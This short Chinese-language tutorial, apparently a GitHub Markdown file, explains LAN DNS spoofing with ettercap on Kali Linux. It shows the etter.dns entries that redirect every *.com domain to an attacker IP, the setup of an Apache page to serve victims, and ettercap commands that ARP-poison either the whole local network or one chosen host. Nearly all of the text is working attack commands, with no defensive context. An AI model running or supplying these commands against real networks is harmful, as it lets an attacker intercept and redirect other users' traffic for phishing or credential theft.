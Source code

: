 # kali linux 内网DNS欺骗
## 1.配置ettercap的dns文件
### vim /etc/ettercap/etter.dns
- redirect it to www.linux.org
- *.com A 192.168.1.105
- *.com/* A 192.168.1.105
## 2.修改测试页面启动apache
- vim /var/www/index.html
- service apache2 start
## 3.ettercap欺骗
- ettercap -T -q -i eth0 -P dns_spoof -M arp ////（欺骗整个局域网）
- ettercap -T -q -i eth0 -P dns_spoof -M arp /(网关)/ /(IP)/（欺骗某个IP）
